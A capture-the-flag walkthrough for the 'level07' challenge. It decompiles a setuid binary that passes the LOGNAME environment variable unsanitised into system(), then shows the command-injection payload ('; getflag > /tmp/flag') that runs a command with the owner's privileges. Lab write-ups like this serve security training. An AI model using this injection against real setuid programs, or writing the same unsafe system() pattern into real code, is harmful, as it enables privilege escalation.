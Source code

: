 There is a program with the setuid of flag07:

-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07

There is no source code at the home directorie so i used Gihdra to get a disassambled version of the binary :

int main(int argc,char **argv,char **envp)
{
  char *pcVar1;
  int iVar2;
  char *buffer;
  gid_t gid;
  uid_t uid;
  char *local_1c;
  __gid_t local_18;
  __uid_t local_14;

  local_18 = getegid();
  local_14 = geteuid();
  setresgid(local_18,local_18,local_18);
  setresuid(local_14,local_14,local_14);
  local_1c = (char *)0x0;
  pcVar1 = getenv("LOGNAME");                   <-- It get the Environement variable value of LOGNAME
  asprintf(&local_1c,"/bin/echo %s ",pcVar1);   <-- It use it to make a string "/bin/echo $LOGNAME"
  iVar2 = system(local_1c);                     <-- It execute the string with a syscall
  return iVar2;
}

I only need to modify the LOGNAME value :
    export LOGNAME="; getflag > /tmp/flag"

The flag is at /tmp/flag